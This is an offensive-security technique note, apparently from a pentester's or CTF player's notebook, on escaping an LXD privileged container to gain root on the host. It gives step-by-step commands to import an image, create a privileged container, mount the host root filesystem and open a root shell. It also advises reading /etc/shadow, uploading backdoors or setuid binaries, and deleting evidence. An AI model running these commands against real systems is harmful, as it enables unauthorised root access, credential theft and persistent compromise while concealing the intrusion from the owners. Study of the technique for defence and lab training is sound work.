 ### 1. Technique Name:

LXC/LXD Container Escape via Privileged Container
### 2. Summary:

LXC (Linux Containers) and LXD (Linux Daemon) are OS-level virtualization technologies. LXD containers share the host kernel and can expose the host filesystem if misconfigured. If a user belongs to the `lxd` group, they can often initialize a privileged container and mount the host root filesystem into it, effectively escaping the container and escalating privileges to root.
### 3. Conditions / Requirements:

- Current user is in the `lxd` or `lxc` group    
- LXD is installed and running on the host
- Container image is present or can be imported
- Capable of initiating and configuring containers (`lxc init`, `lxc config`, `lxc start`, etc.)
### 4. Enumeration:
#### A. Check for group membership:

```bash
id
```

Look for `lxd` in the output groups.
#### B. Check if LXD is running:

```bash
which lxc
lxc list
```
#### C. Look for available or importable images:

```bash
ls
# e.g., ubuntu-template.tar.xz
```
### 5. Exploitation:
#### A. Import image (if available locally):

```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```
#### B. Create and configure a privileged container:

```bash
lxc init ubuntutemp privesc -c security.privileged=true
```
#### C. Mount host root filesystem into container:

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
#### D. Start container and escape:

```bash
lxc start privesc
lxc exec privesc /bin/bash
cd /mnt/root
ls -la
```

Now you're operating inside the container as root and can directly interact with the host filesystem.
### 6. Post-Exploitation:

- Read sensitive files from the host (e.g., `/mnt/root/root/root.txt`, `/mnt/root/etc/shadow`)
- Upload backdoors or setuid binaries to the host
- Clean up evidence:

```bash
lxc delete privesc --force
lxc image delete ubuntutemp
```
### Example:

```bash
id
# uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)

lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/bash

cd /mnt/root
ls -l
# Now reading and modifying host files as root
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #LXD #LXC